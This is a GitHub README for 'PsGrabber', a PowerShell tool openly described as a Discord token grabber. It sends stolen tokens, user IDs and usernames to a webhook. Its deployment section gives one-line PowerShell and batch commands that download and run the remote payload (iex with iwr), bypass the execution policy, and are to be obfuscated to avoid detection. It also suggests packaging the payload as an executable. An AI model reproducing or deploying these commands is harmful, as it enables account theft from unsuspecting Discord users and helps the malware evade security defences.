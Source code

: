 ![Logo](https://i.ibb.co/Vtx5jqF/Capture.png)

    
# PsGrabber
A Discord token grabber that exfiltrates tokens to a webhook written in powershell



<details open="open">
  <summary>Table of Contents</summary>
  <ol>
    <li>
      <a href="#features">Features</a>
    </li>
    <li>
      <a href="#deployment">Deployment</a>
    </li>
    <li><a href="#acknowledgements">Acknowledgements</a></li>
    <ul>
        <li><a href="#authors">Authors</a></li>
    </ul>
  </ol>
</details>


## Features

- Inbuilt token checker
- All data sent through a webhook
- Provives userID of tokens found
- Provides token type
- Provides the usernames of the tokens stolen
- Gives information on where the tokens stolen are stored

## Deployment

To effectivly deploy this project, choose one of these steps\
To avoid detection, the following commands should be Encoded using [Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)


#### Define HookUrl and use the payload as a powershell script
```powershell
$hookurl="";iex((iwr https://github.com/MattOverthrow/PSGrabber/PSGrabber).content)
```

#### Convert to batch and then convert into an exe using a third party program
```batch
powershell.exe -NoProfile -ExecutionPolicy bypass -Command "iex((iwr https://github.com/MattOverthrow/PSGrabber/PSGrabber).content)"
```

## Acknowledgements

 - danielbohannon for The [obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation) used in the program
  


## Authors

- [@MattOverthow](https://github.com/MattOverthrow/)
